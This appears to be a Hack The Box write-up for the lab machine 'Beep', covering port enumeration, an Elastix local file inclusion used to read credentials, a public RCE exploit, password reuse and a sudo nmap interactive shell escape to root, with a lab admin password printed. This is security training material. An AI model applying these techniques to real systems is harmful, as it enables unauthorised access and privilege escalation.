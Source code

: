 Name and IP Address of Machine: 
> Beep: `10.10.14.7`
<!-- TOC -->

- [Synopsis](#synopsis)
- [Enumeration](#enumeration)
- [FootHold](#foothold)
- [Lateral Movement](#lateral-movement)
- [Privilege Escalation](#privilege-escalation)
- [Extra](#extra)

<!-- /TOC -->



## Synopsis

## Enumeration

Open Ports found:
- [ ] 22(ssh),
- [ ] 25(smtp),
- [x] **80(http)**,
- [ ] 110(pop3),
- [ ] 111(rpcbind),
- [ ] 143(imap),
- [x] **443(https)**,
- [ ] 993(ssl/imap),
- [ ] 995(ssl/pop3),
- [ ] 3306(mysql),
- [ ] 4445(?),
- [x] **10000(http)(Miniserv 1.570)**


Port 443 running elastix service which is vulnerable to local file inclusion. Got to know from 
> `searchsploit elastix` 
```bash
┌──(ircashem)㉿(10.10.14.28)──[~/HackTheBox/beep]
└─$ searchsploit elastix                                                                                                         130 ⨯
-------------------------------------------------------------------------------------
 Exploit Title                                                | Path
------------------------------------------------------------------------------------- 
Elastix - 'page' Cross-Site Scripting                         | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities       | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion              | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                             | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                            | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution        | php/webapps/18650.py
-------------------------------------------------------------------------------------
Shellcodes: No Results
```
 
> Vulnerable Version: 2.2.0

## FootHold
Exploiting lfi to extract credentials from the conf files of elastix service.
> admin:`jEhdIekWmdjE`
from `/etc/passwd` reveals a user `fanis` is there.


## Lateral Movement
Now after authenticating to the elastix service, there is another exploit for this software which was vulnerable to rce when authenticated. Since we can now authenticate to the system, exploiting it with the script `18650.py`, we got shell as user `asterisk`.


## Privilege Escalation

> `Password Reuse`: 
> 
> Using the password of asterisk which we found on the amportal.conf, we got shell as root

```bash
bash-3.2$ whoami
asterisk
bash-3.2$ su -
Password: 
[root@beep ~]#
```

Another way for getting root is that user asterisk can run few commands as sudo without password. 

```bash
bash-3.2$ sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS
    LC_CTYPE LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE LC_TIME
    LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
    
bash-3.2$ sudo /usr/bin/nmap --interactive
nmap> !bash
root@beep #
```

## Extra
I was not able to login via ssh because the ssh uses the encryption mechanism for the key exchange was quite old and not supported by our ssh now. Have to add a flag to do so.
```bash
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
```


<!-- ## Thank You 
🕉️  -->



